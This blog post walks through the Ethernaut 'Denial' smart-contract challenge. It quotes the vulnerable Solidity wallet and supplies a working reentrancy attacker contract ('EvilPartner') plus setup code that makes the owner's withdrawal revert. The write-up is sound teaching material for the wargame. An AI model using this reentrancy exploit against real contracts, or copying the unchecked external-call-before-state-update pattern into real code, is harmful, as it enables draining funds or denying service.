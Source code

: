 ###########################
Ethernaut 20: Denial
###########################
:date: 2023-10-15
:slug: ethernaut-20-denial
:summary: It's always reentrancy
:tags: programming
:author: capu
:featured_image:


Objective
=========
    This is a simple wallet that drips funds over time. You can withdraw the
    funds slowly by becoming a withdrawing partner.

    If you can deny the owner from withdrawing funds when they call withdraw()
    (whilst the contract still has funds, and the transaction is of 1M gas or
    less) you will win this level.

Code
====
.. code-block:: solidity
    :linenos: inline
    :hl_lines: 18 22

    contract Denial {
        // withdrawal partner - pay the gas, split the withdraw
        address public partner;
        address payable public constant owner = payable(address(0xA9E));
        uint256 timeLastWithdrawn;
        // keep track of partners balances
        mapping(address => uint256) withdrawPartnerBalances;

        function setWithdrawPartner(address _partner) public {
            partner = _partner;
        }

        // withdraw 1% to recipient and 1% to owner
        function withdraw() public {
            uint256 amountToSend = address(this).balance / 100;
            // perform a call without checking return
            // The recipient can revert, the owner will still get their share
            (bool sent,) = partner.call{value: amountToSend}("");
            owner.transfer(amountToSend);
            // keep track of last withdrawal time
            timeLastWithdrawn = block.timestamp;
            withdrawPartnerBalances[partner] += amountToSend;
        }

        // allow deposit of funds
        receive() external payable {}

        // convenience function
        function contractBalance() public view returns (uint256) {
            return address(this).balance;
        }
    }

This contract sort of implements a keeper pattern. It slowly drips funds to an
address when the ``withdraw()`` function is called. In order for that to happen
kind of automatically (there are no cron jobs on EVM-land), an incentive is
provided to whoever wants to call the function periodically. In this contract,
the address doing that work would be the ``partner``.

The level factory will try to call ``withdraw()``, and consider the level passed
if the call fails.

Solution
========
There are two parts to this:

First, the contract doesn't implement a check-effects-interactions pattern
properly, doing an external call to an untrusted address (line 16) before updating the
contract's state (line 20).

Then, the idea with this is to cause the ``withdraw()`` call to revert. Simply
rejecting when receiving ether won't work, as a low level ``call()`` is
performed against my contract, and the return value is explicitly ignored.

What I can do, however, is cause a revert on line 17 instead , since
``address.transfer(uint256 amount)`` reverts if the contract doesn't have enough
ether.

And the way to do that is with a reentrancy attack:

.. code-block:: solidity
    :linenos: inline
    :hl_lines: 8

    contract EvilPartner {
        uint256 private amountToSendToOwner;

        receive() external payable {
            if (amountToSendToOwner == 0 ) {
                amountToSendToOwner = msg.value;
            }
            while(msg.sender.balance > amountToSendToOwner) {
                Denial(payable(msg.sender)).withdraw();
            }
        }
    }

In line 8 I choose to keep withdrawing my alloted 1% over and over again up
until said amount is higher than the contract ``Denial`` contract balance. At
that point, I'm conviced transferring to the owner will revert, so I just
return.

Then, it's a matter of setting the withdraw partner to the attacker contract,
since the level factory will take care of calling the contract for me:

.. code-block:: solidity
    :linenos: inline

    function solution(address payable target_) internal override{
        Denial target = Denial(target_);
        EvilPartner attacker = new EvilPartner();
        target.setWithdrawPartner(address(attacker));
    }

😎
